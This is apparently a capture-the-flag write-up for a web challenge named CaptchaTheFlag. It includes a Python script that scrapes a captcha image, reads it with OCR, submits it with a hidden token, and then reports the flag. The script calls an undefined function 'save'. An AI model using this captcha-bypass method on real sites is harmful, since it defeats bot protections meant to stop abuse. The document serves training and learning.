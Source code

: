 # CaptchaTheFlag

# Requirements

- Python
- Pytesseract

# Description

```
Are you too fast to be human?

Link: https://web.ctf.devclub.in/dev/4/
```

![Web page](image.png)

# Observation

We can see that here the captcha is updated everytime we reload the page. We need to scrape the image, extract the text and submit it in the form.

# Exploitation

```py
import requests, io
from bs4 import BeautifulSoup
import base64
import pytesseract
from PIL import Image

URL = 'https://web.ctf.devclub.in/dev/4/'

def save_to_disk(byts):
    stream = io.BytesIO(byts)
    img = Image.open(stream)
    text = pytesseract.image_to_string(img)
    return text

def attack():
    r = requests.get(URL)
    content = r.content
    soup = BeautifulSoup(content, 'html5lib')
    tag = soup.find('img')
    byts = base64.b64decode(
        tag['src'][len('data:image/jpeg;base64, '):])
    text = save(byts)
    hidden_txt = soup.find('input', {'type': 'hidden'}).get('value')
    # print(text, hidden_txt)
    r = requests.post(URL, data={
        'tt': hidden_txt,
        'captcha': text
    })
    print(r.text)

attack()
```

On running the script 5-7 times, we get the following flag

```devctf{0k@y!_y0u_@re_@_hum@n}```